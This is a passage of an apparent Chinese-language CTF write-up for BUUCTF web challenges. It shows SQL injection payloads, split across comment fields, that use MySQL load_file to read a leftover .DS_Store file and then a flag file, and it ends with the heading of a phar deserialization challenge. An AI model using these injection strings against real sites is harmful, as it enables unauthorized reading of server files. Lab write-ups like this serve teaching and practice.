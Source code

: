 ```
```



```
这里发现曾经在/tmp页面解压过zip文件,且没有删除
',content=(select load_file('/tmp/html/.DS_Store')),/*  
',content=(select hex(load_file('/tmp/html/.DS_Store'))),/* 上面出来是乱码,所以将其转为16进制输出,然后转为字符串
这里发现了flag文件的名称:
flag_8946e1ff1ee3e40f.php

留言填写:
*/#
```

![image-20221029115625879](/images/buuctf-web4/image-20221029115625879.png)

读取flag:

```
',content=(select load_file('/var/www/html/flag_8946e1ff1ee3e40f.php')),/*  
',content=(select load_file('/tmp/html/flag_8946e1ff1ee3e40f.php')),/*  
这里这两个地方读取到的flag是不一样的...第一个才能正确提交

留言填写:
*/#

```

这里补充知识点:

>`.DS_Store`(英文全称 `Desktop Services Store`)是一种由苹果公司的Mac OS X操作系统所创造的隐藏文件，目的在于存贮目录的自定义属性，例如文件们的图标位置或者是背景色的选择。相当于 `Windows` 下的 `desktop.ini`。
>
>读取该文件能够获得当前的目录结构

<br>

***

<br>

# [phar反序列化,文件上传]SimplePHP

能够上传文件, 且还有个文件上传的功能

![image-20221029123120229](/images/buuctf-web4/image-20221029123120229.png)